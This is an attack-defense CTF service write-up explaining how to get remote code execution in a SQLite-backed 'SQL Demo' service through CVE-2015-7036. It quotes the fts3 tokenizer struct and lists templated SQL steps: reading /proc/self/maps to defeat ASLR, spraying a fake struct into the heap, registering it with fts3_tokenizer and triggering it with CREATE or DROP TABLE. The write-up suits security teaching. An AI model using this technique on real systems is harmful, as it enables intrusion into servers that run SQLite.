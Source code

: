 # SQL Demo

The service provides network access to the SQLite in-memory database. Users can execute arbitrary SQL query and read arbitrary file via `.read <filename>`.
The checker puts every flag in new database with random name. Teams should get database names to steal flags.

The service is written on Python and forwards SQL queries to the latest non-modified SQLite library (v3.30.0-1). The primary way to hack the service is to get an RCE via SQL query.

# Vulnerability

The key thing to hack the service is to exploit known but still unfixed (for several years) vulnerability in SQLite ([CVE-2015-7036](https://nvd.nist.gov/vuln/detail/CVE-2015-7036)).

The intendent way to hack the service is to define specific `sqlite3_tokenizer_module` struct:
```
struct sqlite3_tokenizer_module {
  /*
  ** Structure version. Should always be set to 0.
  */
  int iVersion;
  /*
  ** Create a new tokenizer. The values in the argv[] array are the
  ** arguments passed to the "tokenizer" clause of the CREATE VIRTUAL
  ** TABLE statement that created the fts3 table. For example, if
  ** the following SQL is executed:
  **
  **   CREATE .. USING fts3( ... , tokenizer <tokenizer-name> arg1 arg2)
  **
  ** then argc is set to 2, and the argv[] array contains pointers
  ** to the strings "arg1" and "arg2".
  **
  ** This method should return either SQLITE_OK (0), or an SQLite error 
  ** code. If SQLITE_OK is returned, then *ppTokenizer should be set
  ** to point at the newly created tokenizer structure. The generic
  ** sqlite3_tokenizer.pModule variable should not be initialised by
  ** this callback. The caller will do so.
  */
  int (*xCreate)(
    int argc,                           /* Size of argv array */
    const char *const*argv,             /* Tokenizer argument strings */
    sqlite3_tokenizer **ppTokenizer     /* OUT: Created tokenizer */
  );
  /*
  ** Destroy an existing tokenizer. The fts3 module calls this method
  ** exactly once for each successful call to xCreate().
  */
  int (*xDestroy)(sqlite3_tokenizer *pTokenizer);
  /*
  ** Create a tokenizer cursor to tokenize an input buffer. The caller
  ** is responsible for ensuring that the input buffer remains valid
  ** until the cursor is closed (using the xClose() method). 
  */
  int (*xOpen)(
    sqlite3_tokenizer *pTokenizer,       /* Tokenizer object */
    const char *pInput, int nBytes,      /* Input buffer */
    sqlite3_tokenizer_cursor **ppCursor  /* OUT: Created tokenizer cursor */
  );
  /*
  ** Destroy an existing tokenizer cursor. The fts3 module calls this 
  ** method exactly once for each successful call to xOpen().
  */
  int (*xClose)(sqlite3_tokenizer_cursor *pCursor);
  /*
  ** Retrieve the next token from the tokenizer cursor pCursor. This
  ** method should either return SQLITE_OK and set the values of the
  ** "OUT" variables identified below, or SQLITE_DONE to indicate that
  ** the end of the buffer has been reached, or an SQLite error code.
  **
  ** *ppToken should be set to point at a buffer containing the 
  ** normalized version of the token (i.e. after any case-folding and/or
  ** stemming has been performed). *pnBytes should be set to the length
  ** of this buffer in bytes. The input text that generated the token is
  ** identified by the byte offsets returned in *piStartOffset and
  ** *piEndOffset. *piStartOffset should be set to the index of the first
  ** byte of the token in the input buffer. *piEndOffset should be set
  ** to the index of the first byte just past the end of the token in
  ** the input buffer.
  **
  ** The buffer *ppToken is set to point at is managed by the tokenizer
  ** implementation. It is only required to be valid until the next call
  ** to xNext() or xClose(). 
  */
  /* TODO(shess) current implementation requires pInput to be
  ** nul-terminated.  This should either be fixed, or pInput/nBytes
  ** should be converted to zInput.
  */
  int (*xNext)(
    sqlite3_tokenizer_cursor *pCursor,   /* Tokenizer cursor */
    const char **ppToken, int *pnBytes,  /* OUT: Normalized text for token */
    int *piStartOffset,  /* OUT: Byte offset of token in input buffer */
    int *piEndOffset,    /* OUT: Byte offset of end of token in input buffer */
    int *piPosition      /* OUT: Number of tokens returned before this one */
  );
};
```

Teams should craft this struct in the heap memory and pass the pointer to it via `SELECT fts3_tokenizer('main', x'<sqlite3_tokenizer_module address>');` to get an RCE.

To exploit the vulnerability teams should bypass the ASLR. There are several ways to do it:
* via `.read /proc/self/maps` query
* via `.thumbprint` query

Attack scenario:
1. Calculate addresses to bypass an ASLR
2. Craft `sqlite3_tokenizer_module` struct in the heap via
   ```
   SELECT replace(hex(zeroblob(10000)), '00', x'0000000000000000<xCreate function address><xDestroy function address><xOpen function address><xClose function address><xNext function address>');
   ```
3. Define new fts3-tokenizer via `SELECT fts3_tokenizer('<tokenizer name>', x'<crafted sqlite3_tokenizer_module address>');`
4. Trigger code execution via overrided `xCreate` (`CREATE VIRTUAL TABLE t USING fts3(tokenize=<tokenizer name>);`) or `xDestroy` (`DROP TABLE t;`)

The exploit can be found at [/sploits/sql_demo/sql_demo.sploit.py](../../sploits/sql_demo/sql_demo.sploit.py).
